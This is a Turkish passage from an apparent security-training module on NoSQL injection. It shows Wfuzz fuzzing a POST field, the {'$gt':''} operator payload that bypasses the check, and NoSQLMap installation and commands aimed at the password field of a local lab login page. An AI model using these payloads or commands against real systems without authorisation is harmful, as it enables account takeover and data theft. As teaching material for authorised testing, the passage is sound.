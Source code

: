 **`-z`** argümanı ile kullanacağımız **wordlist**'i sağladık (bu durumda SecLists), **`-u`** ile hedef uygulamanın URL'sini sağladık, ardından **`-d`** ile gönderilmesi gereken POST verisini (bu durumda takip numarasını içeren JSON object'i) sağladık. Takip numarası yerine, POST verisine **`FUZZ`** ekledik; bu, **Wfuzz**'ın **wordlist**'imizden gelen **payload**'larla **`FUZZ`**'ı değiştireceği anlamına gelir.

Sonuçlara baktığımızda, **`{"$gt":""}`**'nin öne çıktığını görebiliyoruz çünkü **response** boyutu diğer tüm **response**'larla karşılaştırıldığında `136` karakterdi, diğerleri ise `35` karakter uzunluğundaydı. Bu, bu özel **payload**'ın sunucunun farklı bir şekilde tepki vermesine neden olduğunu ima eder ve bunu, **payload**'ı manuel olarak tekrar gönderip sonucu görmek için takip etmeliyiz.


### Tools

#### NoSQLMap

**[NoSQLmap](https://github.com/codingo/NoSQLMap)**, NoSQL enjeksiyon zafiyetlerini tespit etmek için kullanılan açık kaynaklı bir Python-2 aracıdır. Aşağıdaki komutları çalıştırarak yükleyebiliriz ([Docker](https://github.com/codingo/NoSQLMap/tree/master/docker) konteyneri çalışmıyor gibi görünüyor).

```shell-session
[!bash!]$ git clone https://github.com/codingo/NoSQLMap.git
[!bash!]$ cd NoSQLMap
[!bash!]$ sudo apt install python2.7
[!bash!]$ wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
[!bash!]$ python2 get-pip.py
[!bash!]$ pip2 install couchdb
[!bash!]$ pip2 install --upgrade setuptools
[!bash!]$ pip2 install pbkdf2
[!bash!]$ pip2 install pymongo
[!bash!]$ pip2 install ipcalc
```

Bu aracı **MangoMail** üzerinde gösterebiliriz. Varsayalım ki admin'in e-posta adresinin **`admin@admin.com`** olduğunu biliyoruz ve şifre alanının **NoSQL injection**'a karşı zayıf olup olmadığını test etmek istiyoruz. Bunu test etmek için **NoSQLMap**'i aşağıdaki argümanlarla çalıştırabiliriz:

- **`--attack 2`**: Web saldırısını belirtir
- **`--victim 127.0.0.1`**: IP adresini belirtir
- **`--webPort 80`**: Portu belirtir
- **`--uri /index.php`**: İstek göndereceğimiz URL'yi belirtir
- **`--httpMethod POST`**: POST istekleri göndereceğimizi belirtir
- **`--postData email,admin@admin.com,password,qwerty`**: Göndereceğimiz iki parametreyi, sırasıyla `admin@admin.com` ve **`qwerty`** varsayılan değerleriyle belirtir
- **`--injectedParameter 1`**: Şifre parametresini test etmek istediğimizi belirtir
- **`--injectSize 4`**: Rastgele oluşturulacak veriler için varsayılan bir boyut belirtir

```shell-session
[!bash!]$ python2 nosqlmap.py --attack 2 --victim 127.0.0.1 --webPort 80 --uri /index.php --httpMethod POST --postData 

email,admin@admin.com,password,qwerty --injectedParameter 1 --injectSize 4
Web App Attacks (POST)
===============
Checking to see if site at 127.0.0.1:80/index.php is up...
App is up!
List of parameters:
1-password
2-email
Injecting the password parameter...
Using admin@admin.com for injection testing.

Sending random parameter value...
Got response length of 1250.
No change in response size injecting a random parameter..

```